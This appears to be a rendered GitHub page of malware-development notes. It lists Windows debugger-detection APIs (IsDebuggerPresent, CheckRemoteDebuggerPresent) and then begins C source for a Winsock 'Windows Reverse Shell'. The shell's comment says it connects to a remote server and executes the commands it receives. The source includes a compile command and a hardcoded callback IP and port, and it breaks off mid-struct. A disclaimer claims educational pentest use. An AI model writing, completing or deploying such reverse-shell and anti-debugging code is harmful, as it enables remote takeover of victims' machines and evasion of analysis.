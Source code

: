 ### Debugging
[IsDebuggerPresent](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-isdebuggerpresent)
```c
BOOL IsDebuggerPresent(); // Determines whether the calling process is being debugged by a user-mode debugger.
```
[CheckRemoteDebuggerPresent](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-checkremotedebuggerpresent)
```c
BOOL CheckRemoteDebuggerPresent(
  [in]      HANDLE hProcess,
  [in, out] PBOOL  pbDebuggerPresent
); // Determines whether the specified process is being debugged.
```
[OutputDebugStringA](https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-outputdebugstringa)
```c
void OutputDebugStringA(
  [in, optional] LPCSTR lpOutputString
); // Sends a string to the debugger for display.
```

### Winsock
```c
/*** Windows Reverse Shell
 * 
 *   ██████  ███▄    █  ▒█████   █     █░ ▄████▄   ██▀███   ▄▄▄        ██████  ██░ ██
 * ▒██    ▒  ██ ▀█   █ ▒██▒  ██▒▓█░ █ ░█░▒██▀ ▀█  ▓██ ▒ ██▒▒████▄    ▒██    ▒ ▓██░ ██▒
 * ░ ▓██▄   ▓██  ▀█ ██▒▒██░  ██▒▒█░ █ ░█ ▒▓█    ▄ ▓██ ░▄█ ▒▒██  ▀█▄  ░ ▓██▄   ▒██▀▀██░
 *   ▒   ██▒▓██▒  ▐▌██▒▒██   ██░░█░ █ ░█ ▒▓▓▄ ▄██▒▒██▀▀█▄  ░██▄▄▄▄██   ▒   ██▒░▓█ ░██
 * ▒██████▒▒▒██░   ▓██░░ ████▓▒░░░██▒██▓ ▒ ▓███▀ ░░██▓ ▒██▒ ▓█   ▓██▒▒██████▒▒░▓█▒░██▓
 * ▒ ▒▓▒ ▒ ░░ ▒░   ▒ ▒ ░ ▒░▒░▒░ ░ ▓░▒ ▒  ░ ░▒ ▒  ░░ ▒▓ ░▒▓░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒
 * ░ ░▒  ░ ░░ ░░   ░ ▒░  ░ ▒ ▒░   ▒ ░ ░    ░  ▒     ░▒ ░ ▒░  ▒   ▒▒ ░░ ░▒  ░ ░ ▒ ░▒░ ░
 * ░  ░  ░     ░   ░ ░ ░ ░ ░ ▒    ░   ░  ░          ░░   ░   ░   ▒   ░  ░  ░   ░  ░░ ░
 *       ░           ░     ░ ░      ░    ░ ░         ░           ░  ░      ░   ░  ░  ░
 *                                   Written by: snowcra5h@icloud.com (snowcra5h) 2023
 *
 * This program establishes a reverse shell via the Winsock2 library. It is
 * designed to establish a connection to a specified remote server, and execute commands
 * received from the server on the local machine, giving the server
 * control over the local machine.
 *
 * Compile command (using MinGW on Wine):
 * wine gcc.exe windows.c -o windows.exe -lws2_32
 *
 * This code is intended for educational and legitimate penetration testing purposes only.
 * Please use responsibly and ethically.
 *
 */

#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <windows.h>
#include <process.h>

const char* const PORT = "1337";
const char* const IP = "10.37.129.2";

typedef struct {
    HANDLE hPipeRead;
    HANDLE hPipeWrite;
    SOCKET sock;
```